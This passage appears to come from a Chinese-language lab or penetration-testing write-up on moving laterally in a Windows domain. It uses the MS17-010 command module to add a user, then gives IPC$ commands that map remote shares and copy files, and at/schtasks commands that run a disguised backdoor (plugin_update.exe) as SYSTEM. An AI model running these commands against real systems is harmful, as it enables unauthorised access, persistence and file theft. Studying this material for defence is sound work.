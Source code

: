 经过测试，发现只能用`admin/smb/ms17_010_command`

在Windows2003主机上

![image-20230330141915854](../../../images/image-20230330141915854-1686283281462.png)

添加成功

![image-20230330142326253](../../../images/image-20230330142326253-1686283281462.png)

同理域控server2008也可以使用该payload

#### ipc$连接

> `IPC$(Internet Process Connection)`是共享”命名管道”的资源，它是为了让进程间通信而开放的命名管道，也就是两个进程之间可以利用它产生数据交互，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。

```cmd
net use \\ip /u:username password # 建立ipc$连接
net view \\ip # 查看目标机器的共享资源
net use z: \\IP\c$ # 将目标c盘映射为本地z盘
dir \\ip\盘符$\dir_path  # 列出指定目录文件
copy \\ip\盘符$\file save_path # 下载文件 save_path为绝对路径/保存到当前目录
copy file \\ip\盘符$\file # 复制文件
net use \\ip /del /y # 删除ipc$连接
```

- 版本＜Windows2012

  ```cmd
  net time \\ip # 查看目标机器时间
  at \\ip time(11:12) c:\1.bat # 创建定时任务
  ```

- 版本＞Windows2012

  ```cmd
  net time \\ip # 查看目标机器时间
  
  schtasks /create /tn "task" /tr c:\windows\temp\plugin_update.exe /sc once /st 16:32 /S ip /RU System /u username /p "passwd"
  # 创建该时间之后的某个时刻自动执行任务，任务名 plugin_update
  
  schtasks /run /tn "task" /S ip /u username /p "passwd"
  # 立即运行后门程序
  
  
  schtasks /F /delete /tn "task" /S ip /u username /p "passwd"
  # 删除创建的任务
  ```

  

这里添加了用户，用外网机使用ipc$与域控建立连接后，发现没有权限

![image-20230331151440023](../../../images/image-20230331151440023-1686283281462.png)

